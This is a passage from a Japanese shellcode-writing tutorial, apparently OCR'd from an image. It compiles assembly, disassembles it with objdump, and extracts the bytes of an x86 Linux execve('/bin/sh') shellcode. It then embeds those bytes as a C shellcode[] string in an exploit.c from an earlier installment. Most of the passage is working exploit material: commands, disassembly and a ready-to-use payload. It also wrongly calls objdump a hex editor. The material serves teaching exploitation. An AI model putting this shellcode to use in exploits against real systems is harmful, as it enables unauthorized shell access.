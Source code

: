 -----
defolos@glazheim:~$ gcc shellcode.s
-----

　これでa.outという名前で、先程のコードが機械語になりました。後はこのファ
イルの中身を見れば良いわけですが、catコマンド等ではファイルの中身は文字で
あると扱われるので見ることはできません。機械語としてファイルを閲覧するに
は16進数エディタを用います。次のようにしてobjdumpと言う16進数エディタを利
用します。

-----
defolos@glazheim:~$ objdump -d ./a.out
-----

　かなりたくさん表示されたと思いますが、実際に必要なのは<main>以後90が現
れるまでの間です。ですので次のようにして<main>から30行を表示します。

-----
defolos@glazheim:~$ objdump -d a.out|grep \<main\> -A 30
08048354 <main>:
 8048354:       eb 16                   jmp    804836c <ONE>

08048356 <TWO>:
 8048356:       5b                      pop    %ebx
 8048357:       31 c0                   xor    %eax,%eax
 8048359:       89 43 07                mov    %eax,0x7(%ebx)
 804835c:       89 5b 08                mov    %ebx,0x8(%ebx)
 804835f:       89 43 0c                mov    %eax,0xc(%ebx)
 8048362:       b0 0b                   mov    $0xb,%al
 8048364:       8d 4b 08                lea    0x8(%ebx),%ecx
 8048367:       8d 53 0c                lea    0xc(%ebx),%edx
 804836a:       cd 80                   int    $0x80

0804836c <ONE>:
 804836c:       e8 e5 ff ff ff          call   8048356 <TWO>
 8048371:       2f                      das
 8048372:       62 69 6e                bound  %ebp,0x6e(%ecx)
 8048375:       2f                      das
 8048376:       73 68                   jae    80483e0 <__libc_csu_fini>
...
-----

　真ん中の欄の16進数のところだけを抜き出します。これがバイトコードです。

-----
eb 16 5b 31 c0 89 43 07 89 5b 08 89 43 0c b0 0b 8d 4b 08 8d 53 0c cd 80 e8 e5 ff ff ff 2f 62 69 6e 2f 73 68
-----

　これを前回紹介したExploitのshellcode[]の部分に埋め込みます。C言語では16
進数の前には\xをつけないといけないので、次のようになります。

-----exploit.cの一部
char shellcode[]=
"\xeb\x16\x5b\x31\xc0\x89\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
-----
